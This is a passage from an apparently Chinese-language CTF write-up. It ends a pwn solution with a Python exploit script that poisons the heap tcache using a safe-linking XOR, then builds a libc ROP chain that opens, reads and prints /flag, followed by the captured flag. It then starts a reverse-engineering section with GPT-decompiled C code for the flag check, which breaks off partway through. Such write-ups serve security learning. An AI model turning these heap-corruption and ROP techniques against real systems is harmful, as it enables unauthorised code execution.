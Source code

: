 ```python
stackbase = u64(c.recv(6) + b'\0\0') - 0x170
success(f"stackbase = {hex(stackbase)}")
for i in range(12):
    add(0xe8, b'')#21 22 24-28

add(0xe8, b'')#36
add(0xe8, b'')#37
add(0xe8, b'')#38
add(0xe8, b'/flag\0')#39

delete(38)
delete(37)

edit(36, 0xf8, cyclic(0xe8) + flat(0xf1, ((stackbase - 8) ^ (key + 0x2))), False)

poprax = libc.address + 0x0000000000045eb0
poprdi = libc.address + 0x000000000002a3e5
poprsi = libc.address + 0x000000000002be51
poprdxrbx = libc.address + 0x00000000000904a9
syscallret = libc.address + 0x0000000000091316
flag = heapbase + 0x3090

add(0xe8, b'')#37
add(0xe8, flat(1, poprax, 2, poprdi, flag, poprsi, 0, poprdxrbx, 0, 0, syscallret,
               poprax, 0, poprdi, 3, poprsi, flag, poprdxrbx, 50, 0, syscallret,
               poprax, 1, poprdi, 1, syscallret))#38

c.interactive()
```

`flag{248c8af8-6803-4138-a382-34c040bada67}`

## Reverse

### asm_re

一堆汇编，扔给GPT反编译出的main函数逻辑。

```c
#include <stdio.h>
#include <string.h>

int main() {
    char flag[] = "flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}";
    char dst[152];
    int flag_len, i, j;
    int transformed_flag[100];
    int success = 1;

    // Copy 152 bytes from source to destination
    memcpy(dst, "some source string here, assumed to be 152 bytes", 152);

    // Get the length of the flag
    flag_len = strlen(flag);

    // Transform the flag characters
    for (i = 0; i < flag_len; i++) {
        transformed_flag[i] = (((flag[i] * 80) + 20) ^ 77) + 30;
    }

    // Zero-terminate the transformed array
    transformed_flag[flag_len] = 0;

    // Compare the transformed array with the first 152 bytes of destination
```